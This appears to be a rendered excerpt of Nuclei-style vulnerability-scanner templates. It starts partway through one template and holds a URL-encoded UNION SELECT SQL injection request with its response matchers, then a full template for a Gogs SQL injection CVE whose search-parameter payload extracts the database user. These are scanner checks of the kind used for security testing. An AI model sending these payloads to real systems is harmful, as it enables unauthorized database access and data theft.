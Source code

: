 ## Requests

- Method - GET

### URL

- {{BaseURL}}/search/members/?id`%3D520)%2f**%2funion%2f**%2fselect%2f\*\*%2f1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2Cunhex%28%2770726f6a656374646973636f766572792e696f%27%29%2C13%2C14%2C15%2C16%2C17%2C18%2C19%2C20%2C21%2C22%2C23%2C24%2C25%2C26%2C27%2C28%2C29%2C30%2C31%2C32%23sqli=1

### Matchers

**Type - word**

- words
  1. projectdiscovery.io
- part - body

**Type - status**

- status
  1. 200

---

# Gogs (Go Git Service) - SQL Injection

## Description

- Multiple SQL injection vulnerabilities in Gogs (aka Go Git Service) 0.3.1-9 through 0.5.x before 0.5.6.1105 Beta allow remote attackers to execute arbitrary SQL commands via the q parameter to (1) api/v1/repos/search, which is not properly handled in models/repo.go, or (2) api/v1/users/search, which is not properly handled in models/user.go.
- severity - critical
- tags - gogs,seclists,packetstorm,edb,cve,cve2014,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/api/v1/repos/search?q=%27)%09UNION%09SELECT%09\*%09FROM%09(SELECT%09null)%09AS%09a1%09%09JOIN%09(SELECT%091)%09as%09u%09JOIN%09(SELECT%09user())%09AS%09b1%09JOIN%09(SELECT%09user())%09AS%09b2%09JOIN%09(SELECT%09null)%09as%09a3%09%09JOIN%09(SELECT%09null)%09as%09a4%09%09JOIN%09(SELECT%09null)%09as%09a5%09%09JOIN%09(SELECT%09null)%09as%09a6%09%09JOIN%09(SELECT%09null)%09as%09a7%09%09JOIN%09(SELECT%09null)%09as%09a8%09%09JOIN%09(SELECT%09null)%09as%09a9%09JOIN%09(SELECT%09null)%09as%09a10%09JOIN%09(SELECT%09null)%09as%09a11%09JOIN%09(SELECT%09null)%09as%09a12%09JOIN%09(SELECT%09null)%09as%09a13%09%09JOIN%09(SELECT%09null)%09as%09a14%09%09JOIN%09(SELECT%09null)%09as%09a15%09%09JOIN%09(SELECT%09null)%09as%09a16%09%09JOIN%09(SELECT%09null)%09as%09a17%09%09JOIN%09(SELECT%09null)%09as%09a18%09%09JOIN%09(SELECT%09null)%09as%09a19%09%09JOIN%09(SELECT%09null)%09as%09a20%09%09JOIN%09(SELECT%09null)%09as%09a21%09%09JOIN%09(SELECT%09null)%09as%09a22%09where%09(%27%25%27=%27

